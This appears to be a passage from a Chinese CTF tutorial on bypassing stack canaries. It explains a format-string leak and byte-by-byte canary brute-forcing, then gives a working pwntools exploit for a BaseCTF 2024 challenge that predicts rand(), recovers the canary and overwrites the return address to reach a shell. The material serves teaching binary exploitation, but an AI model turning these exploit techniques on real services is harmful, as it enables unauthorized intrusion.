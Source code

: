 我们学习过格式化字符串泄露任意地址，canary本质还是在栈上面的一个值，我们通过计算偏移量，就可以把canary的具体值给泄露出来，找到相对ebp的偏移然后-1，当然有些canary的值其实不是在（ebp-0x8）这个位置，但是我们可以打开ida，一般来说函数最下面的那个变量的位置就是canary的位置，然后去计算就可以了。



#### 二：one-by-one爆破canary

 对于 Canary，虽然每次进程重启后的 Canary 不同 (相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的， 并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。 

案例basectf2024：没有canary我要死了：

伪随机数绕过加上canary：

```python
from pwn import *
from ctypes import *

r = process("./pwn")
def dbg():
    gdb.attach(r)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
seed = libc.time(0)
libc.srand(seed)

canary = b'\x00'

for i in range(7):
    for a in range(256):
        num = libc.rand() % 50
        r.sendlineafter(b'BaseCTF',str(num))
        p = b'a' * 0x68 + canary + p8(a)
        r.send(p)
        r.recvuntil('welcome\n')
        rec = r.readline()
        if b'smashing' not in rec:
            print(f"No.{i + 1} byte is {hex(a)}")
            canary += p8(a)
            break

print(f"canary is {hex(u64(canary))}")
shell = 0x02B1

while(1):
    for i in range(16):
        num = libc.rand() % 50
        r.sendline(str(num))
        p = b'A' * 0x68 + canary + b'A' * 0x8 + p16(shell)
        r.send(p)
        rec = r.readline()
        print(rec)
        if b'welcome' in rec:
            r.readline()
            shell += 0x1000
            continue
        else:
            break

r.interactive()
```
